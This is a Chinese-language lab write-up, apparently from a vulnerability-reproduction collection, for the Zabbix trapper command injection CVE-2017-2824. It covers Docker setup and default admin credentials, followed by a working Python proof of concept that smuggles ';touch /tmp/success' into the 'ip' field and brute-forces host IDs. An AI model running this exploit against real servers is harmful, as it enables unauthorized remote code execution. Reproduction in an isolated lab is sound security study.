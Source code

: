 # Zabbix Server Active Proxy Trapper 远程代码执行漏洞（CVE-2017-2824）

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。

在Zabbix版本2.0.x 2.0.21之前，2.2.x 2.2.18之前，2.4.x，3.0.x 3.0.9之前，或者3.2.x 3.2.5之前，Zabbix的server-side trapper命令功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325
- https://support.zabbix.com/browse/ZBX-12075

## 环境搭建

执行如下命令启动一个完整的Zabbix 3.0.3环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker compose up -d
```

命令执行后，执行`docker compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：

![](1.png)

第三个标签页，创建一个Operation，type是"Add Host"：

![](2.png)

保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

这个POC比较初级，请多执行几次，当查看到如下结果时，则说明命令执行成功：

![](3.png)

进入server容器，可见`/tmp/success`已成功创建：

![](4.png)

有兴趣的同学可以对这个POC进行改进，提交Pull Request。
